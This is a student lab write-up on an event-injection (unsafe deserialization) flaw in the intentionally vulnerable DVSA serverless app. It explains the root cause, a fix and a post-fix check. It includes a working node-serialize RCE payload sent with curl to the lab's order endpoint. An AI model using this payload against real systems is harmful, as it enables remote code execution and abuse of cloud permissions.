



# Lesson #01 - Event Injection

#### ICS-344: Information Security

#### Course Project: DVSA Vulnerability Discovery and Remediation

#### Lesson #1: Event Injection

## Part 1) Goal and Vulnerability Summary

This lesson demonstrates an Event Injection vulnerability that results in remote code execution inside the DVSA backend. The affected component is the DVSA-ORDER-MANAGER Lambda function, which receives order-related requests through API Gateway at the /order endpoint. The function processes attacker-controlled request data using unsafe deserialization. By placing a specially crafted value inside the action field, an attacker can make the backend execute JavaScript code during request parsing rather than treating the value as plain data.

The security impact is critical. The injected code runs inside the Lambda runtime, which means it can interact with the temporary /tmp directory, read environment variables, and potentially abuse whatever AWS permissions are attached to the Lambda execution role. In this lab, the proof-of-concept wrote a file to /tmp, read it back, and printed the result to CloudWatch Logs.

| Item | Lesson #1 Summary |
| --- | --- |
| Vulnerability Type | Event Injection leading to Remote Code Execution (RCE) |
| Entry Point | API Gateway /Stage/order endpoint |
| Backend Function | DVSA-ORDER-MANAGER |
| Main Impact | Attacker-controlled JavaScript executes inside the Lambda runtime |
| Proof Used | CloudWatch log entry: FILE READ SUCCESS |

## Part 2) Why This Works / Root Cause

The vulnerability exists because the Lambda function deserializes user-controlled request data in a way that can evaluate JavaScript functions. A normal JSON parser should only convert JSON text into data structures. In this case, the parser recognizes the special marker _$$ND_FUNC$$_ and treats the following function body as executable JavaScript when it ends with ().

This violates the core security rule for request handling: user input must remain data and must never become executable logic. The exploit works before the rest of the order workflow finishes, which is why the API can return an Internal Server Error while the malicious code has already executed successfully in the backend.

Security rule violated:
Incoming request fields must be parsed as data only. The backend must never evaluate code embedded inside user-controlled JSON values.

## Part 3) Environment and Setup

| Component | Value / Role |
| --- | --- |
| DVSA Website | http://dvsa-student-2026-170635865031-us-east-1.s3-website.us-east-1.amazonaws.com |
| Target API endpoint | https://2ygrq8cev6.execute-api.us-east-1.amazonaws.com/Stage/order |
| Affected Lambda function | DVSA-ORDER-MANAGER |
| CloudWatch log group | /aws/lambda/DVSA-ORDER-MANAGER |
| AWS region | us-east-1 |
| Attacker requirements | Network access to the public API endpoint; no DVSA login token is required for this proof-of-concept payload |
| Tools | curl, Linux terminal / WSL, AWS Console, CloudWatch Logs |

## Part 4) Reproduction Steps

Step 1 - Open a Linux terminal or WSL shell and ensure curl is installed:

```text
sudo apt update && sudo apt install -y curl
```

Step 2 - Send the malicious payload to the /order API endpoint. The payload writes a file to /tmp, reads it back, and logs the content through console.error:

```text
curl -X POST "https://2ygrq8cev6.execute-api.us-east-1.amazonaws.com/Stage/order" \
-H "Content-Type: application/json" \
-d '{"action": "_$$ND_FUNC$$_function(){ var fs = require(\"fs\"); fs.writeFileSync(\"/tmp/pwned.txt\", \"You are reading the contents of my hacked file!\"); var fileData = fs.readFileSync(\"/tmp/pwned.txt\", \"utf-8\"); console.error(\"FILE READ SUCCESS: \" + fileData); }()", "cart-id":""}'
```

Step 3 - Observe the API response. A common response is shown below:

```text
{"message": "Internal server error"}
```

This response is expected. It happens because later parts of the handler continue processing incomplete order data. It does not mean the injected code failed.

Step 4 - Open AWS Console -> CloudWatch -> Log groups -> /aws/lambda/DVSA-ORDER-MANAGER -> latest log stream, then search for FILE READ SUCCESS.

## Part 5) Evidence and Proof

The evidence below confirms that the request reached the Lambda function and that the injected JavaScript ran inside the backend runtime.

### Evidence 1 - Terminal payload sent to the API



The terminal shows the crafted POST request sent to the public API Gateway endpoint. The response behavior is not used as the main proof because the backend can crash after the injected code has already executed.

### Evidence 2 - CloudWatch confirms code execution



The CloudWatch log contains the following proof string:

FILE READ SUCCESS: You are reading the contents of my hacked file!

This line proves that the injected function executed inside the Lambda runtime. The function created /tmp/pwned.txt, read it back, and printed the result to CloudWatch. The important evidence is the backend log, not the HTTP error returned to the client.

| Evidence | What It Proves |
| --- | --- |
| curl request to /Stage/order | The malicious payload was delivered to the public API endpoint. |
| Internal Server Error response | The handler later crashed, which is expected for this proof-of-concept. |
| CloudWatch FILE READ SUCCESS log | The injected JavaScript executed inside the Lambda runtime. |
| /tmp file write/read behavior | The attacker-controlled code interacted with the Lambda execution environment. |

## Part 6) Fix Strategy / Probable Mitigation

The fix must remove the behavior that evaluates user-controlled input as code. The Lambda function should parse incoming bodies using a safe JSON parser and then validate the resulting object against a strict allowlist schema before any business logic runs.

- Replace unsafe deserialization with JSON.parse() for request body parsing.

- Reject unknown or unexpected action values before routing the request.

- Validate field types, required fields, and expected formats such as cart-id.

- Return a controlled 400 Bad Request response for malformed or suspicious input.

- Keep detailed errors in CloudWatch only; do not expose internal exception details to clients.

## Part 7) Code / Config Changes

The primary change belongs in the DVSA-ORDER-MANAGER request parsing path. The vulnerable parsing call must be removed and replaced with safe parsing plus validation.

Vulnerable code pattern (before fix):

```text
var serialize = require('node-serialize');
var obj = serialize.unserialize(body);
```

Fixed code pattern (after fix):

```text
let obj;
try {
obj = JSON.parse(body);
} catch (err) {
return callback(null, {
statusCode: 400,
body: JSON.stringify({ error: 'Bad Request' })
});
}
const allowedActions = ['new', 'orders', 'get', 'shipping', 'billing', 'total'];
if (!obj.action || !allowedActions.includes(obj.action)) {
return callback(null, {
statusCode: 400,
body: JSON.stringify({ error: 'Invalid action' })
});
}
if (obj['cart-id'] !== undefined && typeof obj['cart-id'] !== 'string') {
return callback(null, {
statusCode: 400,
body: JSON.stringify({ error: 'Invalid cart-id' })
});
}
```

## Part 8) Verification After Fix

After applying the fix, replay the exact same payload used in Part 4. The expected result is that the request is rejected as invalid input and the injected function is not executed.

```text
curl -X POST "https://2ygrq8cev6.execute-api.us-east-1.amazonaws.com/Stage/order" \
-H "Content-Type: application/json" \
-d '{"action": "_$$ND_FUNC$$_function(){ console.error(\"INJECTED\"); }()", "cart-id":""}'
```

| Verification Check | Expected Result After Fix |
| --- | --- |
| HTTP response | 400 Bad Request or another controlled validation error. |
| CloudWatch search for FILE READ SUCCESS | No matching log entries after the replayed request. |
| CloudWatch search for INJECTED | No matching log entries after the replayed request. |
| Legitimate order request | Valid requests with allowed action values continue to work normally. |



This verifies that the marker is treated as plain text rather than executable code. The absence of FILE READ SUCCESS in CloudWatch confirms that the injected JavaScript did not run after the fix.

## Part 9) Structured Operation and Security Analysis

### Table A - Intended Logic vs. Exploit Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
| --- | --- | --- | --- | --- |
| Event Injection (Lesson #1) | The /order API must treat request data as plain JSON data. No user-controlled field may be executed as code during parsing or routing. | API Gateway endpoint, DVSA-ORDER-MANAGER source behavior, curl payload, CloudWatch Logs. | A normal request should be parsed as JSON and routed only if action and related fields match expected values. No unexpected backend log output should appear. | A request containing _$$ND_FUNC$$_ caused the backend to execute JavaScript and print FILE READ SUCCESS in CloudWatch. |

### Table B - Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied (Where) | Post-Fix Verification | Optional Latency |
| --- | --- | --- | --- | --- | --- |
| Event Injection (Lesson #1) | The backend executed attacker-controlled JavaScript while parsing request data. This violates the rule that external input must never become executable content. | Intentional misuse / security-relevant abuse | DVSA-ORDER-MANAGER: replace unsafe deserialization with JSON.parse(), add action allowlist validation, and reject malformed bodies before routing. | Replaying the same payload no longer creates FILE READ SUCCESS in CloudWatch. Legitimate requests still work with valid action values. | Exploit request observed around a few hundred milliseconds to seconds depending on cold start; post-fix rejection should return early before business logic. |

## Part 10) Takeaway / Lessons Learned

The core lesson is that request parsing is a security boundary. The backend must never use a parser or input-handling pattern that can evaluate attacker-controlled values as code. Even if the client receives an error response, backend code execution may already have occurred, so CloudWatch evidence is essential when testing serverless vulnerabilities.

In serverless systems, this risk is amplified because Lambda code runs with an execution role. If an attacker gains code execution inside a function, the impact is not limited to the function process; it can extend to any AWS resources allowed by that role. Safe parsing, strict validation, controlled error handling, and least-privilege execution roles are all necessary to reduce both exploitability and blast radius.
